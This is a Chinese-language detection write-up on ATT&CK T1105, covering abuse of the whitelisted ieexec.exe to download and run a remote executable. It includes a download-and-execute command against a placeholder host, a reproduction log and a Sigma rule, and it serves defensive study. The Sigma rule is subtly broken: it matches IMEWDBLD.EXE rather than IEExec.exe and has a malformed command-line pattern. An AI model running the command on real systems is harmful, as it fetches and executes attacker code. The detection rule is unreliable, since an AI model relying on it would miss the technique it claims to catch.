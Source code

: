 # T1105-win-入口工具转移-ieexec.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。可以将IEExec.exe应用程序用作主机，以运行使用URL启动的其他托管应用程序。

**路径:**

```yml
-   C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
-   C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
```

从远程服务器下载并执行 bypass.exe。  

```yml
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

用例：从远程位置下载并运行攻击者代码  
所需权限：用户  
操作系统：Windows vista、Windows 7、Windows 8、Windows 8.1、Windows 10

## 检测日志

windows安全日志

## 测试复现

```bash
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Users\liyang>ieexec.exe
'ieexec.exe' 不是内部或外部命令，也不是可运行的程序
或批处理文件。

C:\Users\liyang>C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe http://XXXX/QQ.exe
```

在Windows10环境下直接执行ieexec.exe提示异常，需要指定具体路径后才可以正常执行该命令。可将文中的QQ.exe替换成bypass文件即可。

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1a24

新进程名称: C:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1410

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe  https://xxx/QQ.exe
```

## 检测方法/思路

### Sigma规则

```yml
title: ieexec.exe bypass
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://www.codercto.com/a/104908.html
- https://lolbas-project.github.io/lolbas/Binaries/Ieexec/

logsource:
product: windows
category: security
selection:
    NewProcessName: \IMEWDBLD.EXE
    CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

ieexec.exe

<https://lolbas-project.github.io/lolbas/Binaries/ieexec/>

远控免杀专题(46)-白名单IEexec.exe执行payload  
  
<https://www.codercto.com/a/104908.html>
